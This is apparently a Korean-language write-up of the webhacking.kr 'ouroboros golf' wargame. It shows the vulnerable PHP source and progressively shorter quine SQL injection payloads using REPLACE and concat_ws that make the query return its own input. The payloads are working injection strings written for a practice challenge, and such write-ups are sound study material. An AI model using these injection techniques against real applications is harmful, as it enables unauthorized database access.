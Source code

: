 ```yaml
---
title: ["[Webhacking.kr] ouroboros golf (sqli - ???)"]
date: 2024-12-10 09:00:00 +0900
categories: [writeup, webhacking.kr]
tags: [web, sqli, quine, golf]
---
```


```php
<?php
  include "../../config.php";
  login_chk();
  print_best_golfer(73);
  $db = dbconnect("ouroboros");
  if(preg_match("/\./i", $_GET['pw'])) exit("No Hack ~_~");
  $query = "select pw from prob_ouroboros where pw='{$_GET['pw']}'";
  echo "<hr>query : <strong>{$query}</strong><hr><br>";
  $result = @mysqli_fetch_array(mysqli_query($db,$query));
  if($result['pw']) echo "<h2>Pw : {$result['pw']}</h2>";
  if(($result['pw']) && ($result['pw'] === $_GET['pw'])){
    // !!THIS IS PAYLOAD GOLF CHALLENGE!!
    // My solution of ouroboros golf is 210byte.
    // If your solution is shorter than mine, you will get 5 point per 1 byte.
    $len = 210 - strlen($_GET['pw']);
    if($len > 0){
      solve(73,$len * 5);
    }
    else{
      echo "<h2>nice try :)</h2>";
    }
  }
  highlight_file(__FILE__);
?>
```

Lord of SQLi의 Ouroboros와 같은 문제이다.  
Golf 형식의 문제로 페이로드가 짧을수록 높은 점수를 받게 된다.  

최고득점이 690 point니까 누군가는 이걸 72byte만에 해결했다는 뜻이다.  

가장 흔한 quine sql injection은 replace함수를 쓰는 것이다.  

```sql
?pw=a' union SELECT REPLACE(REPLACE('a" union SELECT REPLACE(REPLACE("$",CHAR(34),CHAR(39)),CHAR(36),"$") AS Quine%23',CHAR(34),CHAR(39)),CHAR(36),'a" union SELECT REPLACE(REPLACE("$",CHAR(34),CHAR(39)),CHAR(36),"$") AS Quine%23') AS Quine%23

?pw=a'union SELECT REPLACE(REPLACE('a"union SELECT REPLACE(REPLACE("$",CHAR(34),CHAR(39)),CHAR(36),"$")as q%23',CHAR(34),CHAR(39)),CHAR(36),'a"union SELECT REPLACE(REPLACE("$",CHAR(34),CHAR(39)),CHAR(36),"$")as q%23')as q%23

?pw=a'union select replace(replace('a"union select replace(replace("$",char(34),char(39)),char(36),"$")as q%23',char(34),char(39)),char(36),'a"union select replace(replace("$",char(34),char(39)),char(36),"$")as q%23')as q%23

?pw=a'union select replace(replace('a"union select replace(replace("$",char(34),char(39)),char(36),"$")%23',char(34),char(39)),char(36),'a"union select replace(replace("$",char(34),char(39)),char(36),"$")%23')%23

?pw='union select replace(replace('"union select replace(replace("$",char(34),char(39)),char(36),"$")%23',char(34),char(39)),char(36),'"union select replace(replace("$",char(34),char(39)),char(36),"$")%23')%23
```
Ouroboros를 풀었을 때 사용한 페이로드에서 불필요하게 긴 변수명이나 `as` 같은 것들을 쳐내보다가 최고 점수에 근접하기 위해선 다른 함수를 사용해서 페이로드를 근본적으로 줄여야겠다고 생각했다.  


```sql
?pw='union select concat(a,char(34),a,char(34),'as a)as a%23')from(select"'union select concat(a,char(34),a,char(34),'as a)as a%23')from(select"as a)as a%23

?pw='union select concat_ws(char(34),a,a,'as a)as a%23')from(select"'union select concat_ws(char(34),a,a,'as a)as a%23')from(select"as a)as a%23

?pw='union select concat_ws(char(34),a,a,'a)a%23')from(select"'union select concat_ws(char(34),a,a,'a)a%23')from(select"a)a%23
```
`concat`을 사용한 quine 코드이다.  
초기 코드에서 `as`를 생략하고, `concat_ws`를 사용해서 길이를 줄였다.  

최종 페이로드는 116byte로 470점을 획득했다.  
계속해서 줄여나가 보자.